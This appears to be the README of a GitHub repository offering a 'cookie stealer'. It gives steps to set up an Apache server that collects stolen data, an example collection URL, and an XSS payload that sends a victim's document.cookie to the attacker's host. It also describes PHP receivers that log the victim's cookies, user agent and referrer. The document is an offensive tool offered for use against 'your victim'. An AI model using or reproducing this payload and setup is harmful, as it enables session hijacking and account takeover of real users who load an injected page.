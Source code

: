 # cookie-stealer
Cookie Stealer in some languages

## usage
#### step1 - start web server on your own web server
```
sudo apt update && apt upgrade -y
sudo apt install apache2
sudo systemctl start apache 2
```

#### step2 
clone the repository in ``` /var/www/html/ ``` directory

#### step3
now if any cookie or data sent to your webserver by your link, it'll save in cookie file.
example of link:
```
http://192.168.1.135/p1.php?txt=your-data
```

#### Payload
here is some payload for vulnerabilities like XSS to steal cookies of your victim:
```
<script>window.location="http://192.168.1.135/php-cookie-stealer/p1.php?txt="+document.cookie</script>
```

### p1.php
p1.php is basic version of cookie stealer that recieve and store just value of txt parameter.

### p2.php
p2.php store more data from victim. you can store ``` date user-agent referrer ``` too.
